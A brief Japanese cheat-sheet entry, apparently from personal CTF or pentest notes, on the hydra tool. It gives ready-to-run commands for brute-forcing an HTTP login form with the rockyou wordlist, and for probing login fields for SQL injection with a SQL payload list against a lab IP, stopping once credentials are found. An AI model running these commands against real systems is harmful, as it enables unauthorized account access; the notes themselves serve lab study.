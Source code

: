# hydra
- 力こそパワー!BruteForce!
- ftpとかsshとかにも使える

## usage
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-form-post "/path/to/form:Username=^USER^&Password=^PASS^(request body):Login failed(error message)"`

## その他テクニック
`hydra -L SQL.txt -p pass 10.10.192.4 http-post-form “/index.php:username=^USER^&password=^PASS^&x=30&y=:Incorrect Login” -f`
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt) を使うとSQLiのチェックもできる
- -fでcredentialが見つかったら処理を止める
